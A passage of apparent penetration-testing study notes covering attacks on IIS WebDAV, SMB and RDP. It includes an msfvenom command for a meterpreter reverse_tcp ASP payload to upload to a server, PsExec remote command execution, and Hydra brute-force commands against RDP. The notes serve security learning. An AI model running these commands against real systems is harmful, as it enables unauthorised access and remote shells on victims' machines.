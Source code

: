 - First generate msfpayload with "msfvenom" using that command : `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[yourip] LPORT=[localport] -f asp -o [urfilename].asp` Note that you can change the payload (-p option)
- Then you must start Metasploit and use the `multi/handler` exploit, use `options` and set the correct options with `set [optname] [newvalue]` 
- To upload your payload you can use Cadaver, or do it with the `exploit/windows/iis/iis_webdav_upload_asp`  that will create a new one, as always you just have to set the correct options to the payload.
- Note : This payload will auto delete the uploaded asp file.

### SMB 
#### Some more info about it :
- SMB Server Message Block is a network file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network.
- SMB uses port  (TCP), Originally, SMB ran on top of NetBIOS using port 139
- SAMBA is the open source Linux implementation of SMB, and allows windows systems to access Linux shares and devices.
##### SMB Authentication
- The SMB protocol utilizes two levels of authentication, namely :
  | - User Authentication
	  - Users must provide a username and a password in order to authenticate with the SMB server in order to access the share.
  | - Share Authentication
	  - Users must provide a password in order to access restricted share.
Note : Both of these authentication levels utilise a challenge response authentication system. 
![[Pasted image 20230831133123.png]]
##### What is PsExec ?
- PsExec is a lightweight telnet-replacement developed by Microsoft that allows you to execute processes on remote windows systems using any user's credentials. 
- Ps Exec uses SMB to authenticate.
- We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.
- It is a very similar to RDP, however, instead of controlling the remote system via GUI, commands are sent via CMD.
#### SMB exploitation with PsExec
![[Pasted image 20230831133947.png]]
- You **must** have legitimate credentials to perform this attack, you can do bruteforce with metasploit or Hydra.
- Then you can use the following command : `psexec.py [FoudUser]@[target ip]` 
  | Then you will be prompted for the password of _the specified account_.



### RDP (Remote Desktop Protocol ???)
#### Some info about RDP 
![[Pasted image 20230901185445.png]]
#### Exploitation phase
- Bruteforce (hydra)> `hydra -L [UserList] -P [wordlist] rdp://[ipaddres] -s [port]` 
- Connect to the RDP server (xfreerdp)> `xfreerdp /u:[username] /p:[password] /v:[target ip]` 
